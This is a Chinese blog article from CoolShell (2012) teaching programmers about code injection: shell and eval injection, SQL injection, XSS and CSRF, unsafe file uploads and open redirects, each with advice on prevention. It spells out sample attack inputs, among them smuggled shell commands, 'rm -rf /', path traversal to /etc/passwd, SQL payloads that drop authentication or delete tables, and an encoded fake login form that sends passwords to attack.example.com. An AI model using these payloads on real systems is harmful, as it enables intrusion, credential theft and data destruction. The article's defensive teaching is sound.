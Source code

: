 .. _articles8711:

程序员疫苗：代码注入
====================

2012年12月10日 `陈皓 <http://coolshell.cn/articles/author/haoel>`__

|image0|\ 几个月在\ `我的微博 <http://weibo.com/haeol>`__\ 上说过要建一个程序员疫苗网站，希望大家一起来提交一些错误示例的代码，来帮助我们新入行的程序员，不要让我们的程序员一代又一代的再重复地犯一些错误。很多程序上错误就像人类世界的病毒一样，我们应该给我们的新入行的程序员注射一些疫苗，就像给新生儿打疫苗一样，希望程序员从入行时就对这些错误有抵抗力。

我的那个疫苗网站正在建议中（不好意思拖了很久），不过，我可以先写一些关于程序员疫苗性质的文章，也算是热热身。希望大家喜欢，先向大家介绍第一注疫苗——代码注入。

Shell注入
^^^^^^^^^

我们先来看一段perl的代码：

::

    use CGI qw(:standard);
    $name = param('name');
    $nslookup = "/path/to/nslookup";
    print header;
    if (open($fh, "$nslookup $name|")) {
        while (<$fh>) {
            print escapeHTML($_);
            print "\n";
        }
        close($fh);
    }

如果用户输入的参数是：

::

    coolshell.cn%20%3B%20/bin/ls%20-l

那么，这段perl的程序就成了：

::

    /path/to/nslookup coolshell.cn ; /bin/ls -l

我们再来看一段PHP的程序：

::

    $myvar = 'somevalue';
    $x = $_GET['arg'];
    eval('$myvar = ' . $x . ';');

“\ ``eval``\ “的参数将会视同PHP处理，所以额外的命令可被添加。例如：如果”arg”如果被设成”\ ``10; system('rm -rf /')``\ “，后面的”\ ``system('rm -rf /')``\ “代码将被运行，这等同在服务器上运行开发者意料外的程序。（关于rm
-rf
/，你懂的，可参看“\ `一个空格引发的悲剧 <http://coolshell.cn/articles/4875.html>`__\ ”）

再来看一个PHP的代码

::

    $isadmin= false;
    ...
    ...
    foreach ($_GET as $key => $value) {
      $$key = $value;
    }

如果攻击者在查询字符串中给定”isadmin=1″，那$isadmin将会被设为值
“1″，然后攻击值就取得了网站应用的admin权限了。

再来看一个PHP的示例：

::

    $action = 'login';
       if (__isset( $_GET['act'] ) )
          $action = $_GET['act'];
       require( $action . '.php' ); 

这个代码相当危险，攻击者有可能可以干这些事：

-  ``/test.php?act=http://evil/exploit`` - 注入远程机器上有漏洞的文件。
-  ``/test.php?act=/home/www/bbs/upload/exploit`` -
   从一个已经上载、叫做exploit.php文件运行其代码。
-  ``/test.php?act=../../../../etc/passwd%00`` -
   让攻击者取得该UNIX系统目录检索下密码文件的内容。一个使用空元字符以解除\ ``.php``\ 扩展名限制，允许访问其他非
   .php 结尾文件。 (PHP默认值”magic\_quotes\_gpc = On”可以终止这种攻击)

这样的示例有很多，只要你的程序有诸如：\ ``system()``\ 、\ ``StartProcess()``\ 、\ ``java.lang.Runtime.exec()``\ 、\ ``System.Diagnostics.Process.Start()``\ 以及类似的应用程序接口，都是比较危险的，最好不要让其中的字符串去拼装用户的输入。

PHP提供\ ``escapeshellarg()``\ 和\ ``escapeshellcmd()``\ 以在调用方法以前进行编码。然而，实际上并不建议相信这些方法是安全的
。

SQL注入
^^^^^^^

SQL
injection，是发生于应用程序之数据库层的安全漏洞。简而言之，是在输入的字符串之中注入SQL指令，在设计不良的程序当中忽略了检查，那么这些注入进去的指令就会被数据库服务器误认为是正常的SQL指令而运行，因此遭到破坏。

在应用程序中若有下列状况，则可能应用程序正暴露在SQL
Injection的高风险情况下：

#. 在应用程序中使用字符串联结方式组合SQL指令（如：引号没有转义）。
#. 在应用程序链接数据库时使用权限过大的帐户（如：很多开发人员都喜欢用sa（最高权限的系统管理员帐户）连接Microsoft
   SQL Server数据库）。
#. 在数据库中开放了不必要但权力过大的功能（例如在Microsoft SQL
   Server数据库中的xp\_cmdshell延伸预存程序或是OLE
   Automation预存程序等）
#. 过于信任用户所输入的数据，未限制输入的字符数，以及未对用户输入的数据做潜在指令的检查。

例程：

某个网站的登录验证的SQL查询代码为

::

    strSQL = "SELECT * FROM users
    WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"

用户在登录时恶意输入如下的的用户名和口令：

::

    userName = "' OR '1'='1";

::

    passWord = "' OR '1'='1";

此时，将导致原本的SQL字符串被解析为：

::

    strSQL = "SELECT * FROM users
    WHERE (name = '' OR '1'='1') and (pw = '' OR '1'='1');"

也就是实际上运行的SQL命令会变成下面这样的，因此导致无帐号密码，也可登录网站。

::

    strSQL = "SELECT * FROM users;"

这还不算恶劣的，真正恶劣的是在你的语句后再加一个自己的语句，如：

::

    username= "' ; DELETE FROM users; --";

这样一来，要么整个数据库的表被人盗走，要么被数据库被删除。

**所以SQL注入攻击被俗称为黑客的填空游戏**\ 。你是否还记得酷壳\ `这篇文章里的SQL注入 <http://coolshell.cn/articles/6639.html>`__\ ？

|image1|

当他们发现一个网站有SQL注入的时候，他们一般会干下面的事：

-  盗取数据表中的数据，例如个人机密数据（信用卡，身份证，手机号，通讯录……），帐户数据，密码等，获得用户的数据和信息后对这些用户进行“社会工程学”活动（如：\ `我前两天在微信上亲身经历 <http://coolshell.cn/articles/8638.html>`__\ ）。

-  取得系统管理员权限（例如ALTER LOGIN sa WITH PASSWORD=’xxxxxx’）。

-  在数据库中的数据中插入一些HTML/JS代码，有可能得以在网页加入恶意链接以及XSS，这样一来就让访问者被黑。

-  经由数据库服务器提供的操作系统支持，让黑客得以修改或控制操作系统（例如：MS
   SQL Server的 xp\_cmdshell “net stop
   iisadmin”可停止服务器的IIS服务）。甚至破坏硬盘数据，瘫痪全系统（例如xp\_cmdshell
   “FORMAT C:”）。

现在的黑客比较坏，瘫痪系统的事，他们干的越来越少，因为没什么利益，他们希望通过获取用户的帐号信息后，转而攻击用户别的帐号，如游戏帐号，网银帐号，QQ帐号等等他们可以获利的事情（这就是为什么我希望大家\ `在不站点上使用不同的口令 <http://coolshell.cn/articles/2428.html>`__\ ，甚至不同的用户信息的原因）

**如何避免**

-  在组合SQL字符串时，先针对所传入的参数作字符转义（如：将单引号字符取代为连续2个单引号字符）。如果使用PHP开发网页程序的话，亦可打开PHP的Magic
   quote功能自动将所有的网页传入参数，将单引号字符取代为连续2个单引号字符。\ **如果可能应该过滤以下字符：分号“;”，两个减号“–”，单引号“’”，注释“/\*
   …
   \*/”**\ 。（当然，因为注入攻击一般用闭合的引号来玩，所以把引号转义了应该就没有什么问题了）

-  更换危险字符。例如在PHP通过\ ``addslashes()``\ 函数保护SQL注入。

-  限制用户输入的长度，限制用户输入的取值范围。

-  为当前应用建立权限比较小的数据库用户，这样不会导致数据库管理员丢失。

-  把数据库操作封装成一个Service，对于敏感数据，对于每个客户端的IP，在一定时间内每次只返回一条记录。这样可以避免被拖库。

跨网站脚本注 入
^^^^^^^^^^^^^^^

**跨网站脚本**\ （\ **Cross-site**
scripting，通常简称为XSS或跨站脚本或跨站脚本攻击）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java， VBScript， ActiveX， Flash 或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

假如我们有这样一段PHP的代码：

::

    $username = $_GET['username'];
    echo ' Welcome, ' . $username . '';

那么我们可以这样来注入：

http://trustedSite.example.com/welcome.php?username=

甚至这样：

http://trustedSite.example.com/welcome.php?username=

Please Login:

| Username:
| Password:

这会让网页显示以下内容：

::

     Welcome,
        Please Login:
            
                Username: 
                
                Password: 
                
            
        

注入的代码还有可能变种为如下这种更为隐蔽的方式(unicode码)：

trustedSite.example.com/welcome.php?username=

document.write(‘\\u003C\\u0064\\u0069\\u0076\\u0020\\u0069\\u0064\\u003D\\u0022\\u0073

\\u0074\\u0065\\u0061\\u006C\\u0050\\u0061\\u0073\\u0073\\u0077\\u006F\\u0072\\u0064

\\u0022\\u003E\\u0050\\u006C\\u0065\\u0061\\u0073\\u0065\\u0020\\u004C\\u006F\\u0067

\\u0069\\u006E\\u003A\\u003C\\u0066\\u006F\\u0072\\u006D\\u0020\\u006E\\u0061\\u006D

\\u0065\\u003D\\u0022\\u0069\\u006E\\u0070\\u0075\\u0074\\u0022\\u0020\\u0061\\u0063

\\u0074\\u0069\\u006F\\u006E\\u003D\\u0022\\u0068\\u0074\\u0074\\u0070\\u003A\\u002F

\\u002F\\u0061\\u0074\\u0074\\u0061\\u0063\\u006B\\u002E\\u0065\\u0078\\u0061\\u006D

\\u0070\\u006C\\u0065\\u002E\\u0063\\u006F\\u006D\\u002F\\u0073\\u0074\\u0065\\u0061

\\u006C\\u0050\\u0061\\u0073\\u0073\\u0077\\u006F\\u0072\\u0064\\u002E\\u0070\\u0068

\\u0070\\u0022\\u0020\\u006D\\u0065\\u0074\\u0068\\u006F\\u0064\\u003D\\u0022\\u0070

\\u006F\\u0073\\u0074\\u0022\\u003E\\u0055\\u0073\\u0065\\u0072\\u006E\\u0061\\u006D

\\u0065\\u003A\\u0020\\u003C\\u0069\\u006E\\u0070\\u0075\\u0074\\u0020\\u0074\\u0079

\\u0070\\u0065\\u003D\\u0022\\u0074\\u0065\\u0078\\u0074\\u0022\\u0020\\u006E\\u0061

\\u006D\\u0065\\u003D\\u0022\\u0075\\u0073\\u0065\\u0072\\u006E\\u0061\\u006D\\u0065

\\u0022\\u0020\\u002F\\u003E\\u003C\\u0062\\u0072\\u002F\\u003E\\u0050\\u0061\\u0073

\\u0073\\u0077\\u006F\\u0072\\u0064\\u003A\\u0020\\u003C\\u0069\\u006E\\u0070\\u0075

\\u0074\\u0020\\u0074\\u0079\\u0070\\u0065\\u003D\\u0022\\u0070\\u0061\\u0073\\u0073

\\u0077\\u006F\\u0072\\u0064\\u0022\\u0020\\u006E\\u0061\\u006D\\u0065\\u003D\\u0022

\\u0070\\u0061\\u0073\\u0073\\u0077\\u006F\\u0072\\u0064\\u0022\\u0020\\u002F\\u003E

\\u003C\\u0069\\u006E\\u0070\\u0075\\u0074\\u0020\\u0074\\u0079\\u0070\\u0065\\u003D

\\u0022\\u0073\\u0075\\u0062\\u006D\\u0069\\u0074\\u0022\\u0020\\u0076\\u0061\\u006C

\\u0075\\u0065\\u003D\\u0022\\u004C\\u006F\\u0067\\u0069\\u006E\\u0022\\u0020\\u002F

\\u003E\\u003C\\u002F\\u0066\\u006F\\u0072\\u006D\\u003E\\u003C\\u002F\\u0064\\u0069\\u0076\\u003E\\u000D’);

**XSS的攻击主要是通过一段JS程序得用用户已登录的cookie去模拟用户的操作（甚至偷用户的cookie）**\ 。这个方式可以让用户在自己不知情的情况下操作了自己不期望的操作。如果是网站的管理员中招，还有可能导致后台管理权限被盗。关于其中的一些细节可以参看《\ `新浪微博的XSS攻击 <http://coolshell.cn/articles/4914.html>`__\ 》一文。XSS攻击是程序员有一糊涂就很容易犯的错误，你还可以看看网上的《\ `腾讯微博的XSS攻击 <http://www.cnblogs.com/kingthy/archive/2011/08/20/2147355.html>`__\ 》。

XSS攻击在论坛的用户签档里面（使用img标签）也发生过很多次，包括像一些使用bcode的网站，很有可能会被注入一些可以被浏览器用来执行的代码。包括CSS都有可能被注入javascript代码。

不要以为XSS攻击是我们的程序没有写好，有时候，我们会引用别人站点上的js文件，比如：放一个天气预报的小Widget的js，或是一个流量监控，或是一段广告的js文件。你不知道这些东西是不是有问题，如果有恶意的话，这就是你自己主动注入攻击代码了。

**另外，XSS攻击有一部分是和浏览器有关的。**\ 比如，如下的一些例子，你可能从来都没有想过吧？（\ **更多的例子可以参看酷壳很早以前的这篇文章《\ `浏览器HTML安全列表 <http://coolshell.cn/articles/2416.html>`__\ 》**\ ）

::


    ¼script¾alert(1)¼/script¾

XSS攻击通常会引发CSRF攻击。CSRF攻击主要是通过在A站上设置B站点上的链接，通过使用用户在B站点上的登录且还没有过期的cookie，从而使得用户的B站点被攻击。（这得益于现在的多Tab页的浏览器，大家都会同时打开并登录很多的网站，而这些不同网站的页面间的cookie又是共享的）

于是，如果我在A站点内的某个贴子内注入这么一段代码：

::

很有可能你就在访问A站的这个贴子时，你的网银可能向我转了一些钱。

**如何避免**

要防止XSS攻击，一般来说有下面几种手段：

-  严格限制用户的输入。最好不要让用户输入带标签的内容。最好不要让用户使用一些所见即所得的HTML编辑器。

-  严格过滤用户的输入。如：

   -  PHP的\ ``htmlentities()或是htmlspecialchars()或是strip_tags()``\ 。
   -  Python的\ ``cgi.escape()``
   -  ASP的\ ``Server.HTMLEncode()``\ 。
   -  Node.js的node-validator。
   -  Java的\ `xssprotect <http://code.google.com/p/xssprotect/>`__\ 。

-  在一些关键功能，完全不能信任cookie，必需要用户输入口令。如：修改口令，支付，修改电子邮件，查看用户的敏感信息等等。

-  限制cookie的过期时间。

-  对于CSRF攻击，一是需要检查http的reference
   header。二是不要使用GET方法来改变数据，三是对于要提交的表单，后台动态生成一个随机的token，这个token是攻击者很难伪造的。（对于token的生成，建议找一些成熟的lib库）

另外，你可能觉得网站在处理用户的表单提交就行了，其实不是，\ **想一想那些Web
Mail，我可以通过别的服务器向被攻击用户发送有JS代码、图片、Flash的邮件到你的邮箱，你打开一看，你就中招了**\ 。所以，WebMail一般都禁止显示图片和附件，这些都很危险，只有你完全了解来源的情况下才能打开。\ **电子邮件的SMTP协议太差了，基本上无法校验其它邮件服务器的可信度，我甚至可以自己建一个本机的邮件服务器，想用谁的邮件地址发信就用谁的邮件地址发信**\ 。\ **所以，我再次真诚地告诉大家，请用gmail邮箱**\ 。别再跟我说什么QQMail之类的好用了。

上传文件
^^^^^^^^

上传文件是一个很危险的功能，尤其是你如果不校验上传文件的类型的话，你可能会中很多很多的招，这种攻击相当狠。\ **试想，如果用户上传给你一个PHP、ASP、JSP的文件，当有人访问这个文件时，你的服务器会解释执行之，这就相当于他可以在你的服务器上执行一段程序。这无疑是相当危险的。**

举个例子：

::

    要上传的文件:



 

::

    $target = "pictures/" . basename($_FILES['uploadedfile']['name']);
    if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target)){
        echo "图片文件上传成功";
    }else{
        echo "图片文件上传失败";
    }

假如我上传了一个PHP文件如下：

::

那么，我就可以通过如下的URL访问攻击你的网站了：

::

    http://server.example.com/upload_dir/malicious.php?cmd=ls%20-l

抵御这样的攻击有两种手段：

1）限制上传文件的文件扩展名。

2）千万不要使用root或Administrator来运行你的Web应用。

URL跳转
^^^^^^^

URL跳转很有可能会成为攻击利用的工具。

比如下面的PHP代码：

::

    $redirect_url = $_GET['url'];
    header("Location: " . $redirect_url);

这样的代码可能很常见，比如当用户在访问你的网站某个页观的时候没有权限，于是你的网站跳转到登录页面，当然登录完成后又跳转回刚才他访问的那个页面。一般来说，我们都会在跳转到登录页面时在URL里加上要被跳转过去的网页。于是会出现上述那样的代码。

于是我们就可以通过下面的URL，跳转到一个恶意网站上，而那个网站上可能有一段CSRF的代码在等着你，或是一个钓鱼网站。

::

    http://bank.example.com/redirect?url=http://attacker.example.net

这种攻击具有的迷惑性在于，用户看到的http://bank.example.com，\ **以为是一个合法网站，于是就点了这个链接，结果通过这个合法网站，把用户带到了一个恶意网站，而这个恶意网站上可能把页面做得跟这个合法网站一模一样，你还以为访问的是正确的地方，结果就被钓鱼了**\ 。

解决这个问题很简单，你需要在你的后台判断一下传过来的URL的域名是不是你自己的域名。

你可以看看Google和Baidu搜索引擎的链接跳转，百度的跳转链接是被加密过的，而Google的网站链接很长，里面有网站的明文，但是会有几个加密过的参数，如果你把那些参数移除掉，Google会显示一个重定向的提醒页面。（我个人觉得还是Google做得好）

（本篇文章结束）

这段时间工作和家里的事比较多，所以时间有限，更新不快，而此篇行文比较仓促，欢迎大家补充，并指出我文中的问题。

.. |image0| image:: /coolshell/static/20140922112058884000.jpg
.. |image1| image:: /coolshell/static/20140922112058915000.jpg
.. |image8| image:: /coolshell/static/20140922112058956000.jpg

.. note::
    原文地址: http://coolshell.cn/articles/8711.html 
    作者: 陈皓 

    编辑: 木书架 http://www.me115.com